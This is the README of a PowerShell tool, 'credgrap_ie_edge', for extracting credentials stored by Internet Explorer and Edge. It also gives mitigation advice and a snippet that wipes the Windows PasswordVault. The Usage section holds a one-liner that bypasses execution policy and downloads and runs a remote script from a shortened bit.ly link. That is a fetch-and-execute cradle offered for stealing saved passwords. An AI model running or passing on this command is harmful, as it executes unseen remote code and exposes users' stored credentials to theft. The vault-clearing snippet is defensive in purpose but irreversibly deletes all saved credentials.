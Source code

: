 # credgrap_ie_edge

Content: Extract stored credentials from Internet Explorer and Edge

Author: Florian Hansemann | @HanseSecure | https://hansesecure.de

Date: 04/2018

## Usage
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2K75g15’)"

## Recommendation

### Powershell Solution
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | ForEach {$vault.Remove($_)}

Thanks @nongiach for Info

### Other Solution
Don't save any passwords within your browser and use password safes ;-)

### Additionally Information
I was informed by @jaredhaight that this code was already used in the past. I Didn't know that, but i want to add the link to that post https://www.toddklindt.com/blog/_layouts/mobile/dispform.aspx?List=56f96349-3bb6-4087-94f4-7f95ff4ca81f&ID=606

I think the smaller the code, the bigger the chance to develop something 'old.
